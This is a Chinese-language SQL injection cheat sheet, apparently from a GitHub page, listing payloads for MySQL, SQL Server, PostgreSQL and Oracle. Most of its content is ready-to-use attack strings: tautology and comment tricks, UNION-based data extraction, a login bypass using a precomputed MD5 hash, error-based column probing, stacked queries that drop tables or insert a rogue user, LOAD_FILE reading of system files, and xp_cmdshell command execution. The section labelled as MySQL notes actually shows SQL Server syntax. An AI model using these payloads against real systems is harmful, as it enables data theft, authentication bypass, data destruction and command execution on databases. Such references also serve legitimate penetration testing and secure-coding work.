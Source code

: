 # sql注入
---

* M: MySQL
* S: SQL Server
* P: PostgreSQL
* O: Oracle

###1. 确认sql注入
** 根据需要添加 "(",")" **

* 字符串内联注入
    + '
    + 1' or '1'='1 {and}
    + 1' or '1'='2

* 数字值内联注入
    + '
    + 2+1 {-}
    + 1+0
    + 1 or 1=1 {and}
    + 1 or 1=2

* 数据库注释
    + \-\- (MSOP)
    + /\* \*/ (MSOP)
    + /\*!code \*/ {M}

    > SELECT /\*!32302 1/0 \*/ 1 FROM tablename => division by o error, if version > 3.23.02

    + \# {M}

* 数据库连接运算符
    + MySQL:
        + 'ab'='a' 'b'
        + CONCAT(str1, str2, str3)

        > SELECT CONCAT(login, password) FROM members

    + SQL Server:
        + 'ab'='a'+'b'
    + Oracle, PostgreSQL:
        + 'ab'='a'||'b'

* 堆叠查询
    + ; {S}

    > SELECT * FROM members; DROP member\-\-

* if语句
    + IF(condition, true-part, false-part) {M}

    > SELECT IF(1=1,'true','false')

    + IF condition true-part ELSE false-part {S}

    > IF (1=1) SELECT 'true' ELSE SELECT 'false'

    + attack sample

    > if ((select user)='sa' OR (select user)='dbo') select 1 else select 1/0 {S}

* 整数的使用
    + 0xHEXNUMBER {SM}
        + SELECT CHAR(0x66) {S}
        + SELECT 0x5045 {M} \-\-这不是整数而是16进制串
        + SELECT 0x50+0x45 {M} \-\-现在是整数了

* 没有引号的字符串
    + CHAR {SM}
    + CONCAT {M}

    > SELECT CONCAT(CHAR(75),CHAR(76)) => 'KL'

    + 0x457578 {M} \-\-16进制字符串
    + attack sample

    > SELECT LOAD_FILE(0x633A5C626F6F742E696E69) {M} => 'c:\bot.ini'

* 字符串Modification
    + ASCII() {SMP}
    + CHAR() {SM}

### 2. UNION注入

* sample

    > ' union select 1, 'anotheruser', 'not matter', 1\-\-

* 语言处理
    + Hex() {M}

* 绕过MD5哈希检查 {MSP}

    username:admin

    password:1234

    > ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055

    81dc9bdb52d04dc20036dbd8313ed055 = MD5(1234)

* 基于错误-探测字段名

    + HAVING {S}
        + ' HAVINT 1=1 \-\-
        + ' GROUP BY table.columnfromerror1 HAVING 1=1 \-\-
        + ' GROUP BY table.columnfromerror1, table.columnfromerror2 HAVING 1=1 \-\-
        + ...
    + SELECT 中使用 ORDER BY 探测字段数 {MSO}
        + ORDER BY 1 \-\-
        + ...
        + ORDER BY N \-\-

### 3. 数据类型、UNION、之类的

* 提示：

    + 经常给UNION配上ALL使用，因为经常会有相同数值的字段，而缺省情况下UNION都会尝试返回唯一值(records with distinct)
    + 如果你每次查询只能有一条记录，而你不想让原本正常查询的记录占用这宝贵的记录位，可以使用-1或者根本不存在的值来搞定原查询（前提是注入点在WHERE里）。
    + 在UNION中使用NULL，对于大部分数据类型来说这样都比瞎猜字符串、日期、数字之类的来得强
    + 盲注的时候要小心判断错误是来自应用的还是来自数据库的。因为像ASP.NET就经常会在你使用NULL的时候抛出错误（一般用户名的框中不会出现NULL）

+ 获取字段类型
    + ' union select sum(columntofind) from users\-\- {S}

    > Microsoft OLE DB Provider for ODBC Drivers error '80040e07' [Microsoft][ODBC SQL Server Driver][SQL Server]The sum or average aggregate operation cannot take a **varchar** data type as an argument. 如果没有返回错误说明字段是数字类型

    + 可以使用CAST()和CONVERT()

    > SELECT * FROM Table1 WHERE id = -1 UNION ALL SELECT null, null, NULL, NULL, convert(image,1), null, null,NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULl, NULL\-\-

    + 类型查询

    >11223344) UNION SELECT NULL,NULL,NULL,NULL WHERE 1=2 \–\-

    没报错 - 语法是正确的。 这是MS SQL Server的语法。 继续。

    > 11223344) UNION SELECT 1,NULL,NULL,NULL WHERE 1=2 \–\-

    没报错 – 第一个字段是integer类型。

    > 11223344) UNION SELECT 1,2,NULL,NULL WHERE 1=2 \-\-

    报错 – 第二个字段不是integer类型

    > 11223344) UNION SELECT 1,’2’,NULL,NULL WHERE 1=2 \–\-

    没报错 – 第二个字段是string类型。

    > 11223344) UNION SELECT 1,’2’,3,NULL WHERE 1=2 \–\-

    报错 – 第三个字段不是integer

    ……

    Microsoft OLE DB Provider for SQL Server error '80040e07' Explicit conversion from data type int to image is not allowed.

    在遇到union错误之前会先遇到convert()错误，所以先使用convert()再用union

* 简单的注入{MSO}

    + '; insert into users values( 1, 'hax0r', 'coolpass', 9 )/*

* 有用的函数、信息收集、内置程序、大量注入笔记

    + @@version(MS)

    数据库的版本。这是个常量，你能把它当做字段来SELECT，而且不需要提供表名。同样的你也可以用在INSERT/UPDATE语句里面，甚至是函数里面。

    + INSERT INTO members(id, user, pass) VALUES(1, ''+SUBSTRING(@@version,1,10) ,10)

### 4. MySQL笔记

* sample

    + SELECT * FROM master..sysprocesses /*WHERE spid=@@SPID*/

    + DECLARE @result int; EXEC @result = xp_cmdshell 'dir *.exe';IF (@result = 0) SELECT 0 ELSE SELECT 1/0

    HOST_NAME() IS_MEMBER (Transact-SQL)
    IS_SRVROLEMEMBER (Transact-SQL)
    OPENDATASOURCE (Transact-SQL)

    + INSERT tbl EXEC master..xp_cmdshell OSQL /Q"DBCC SHOWCONTIG"





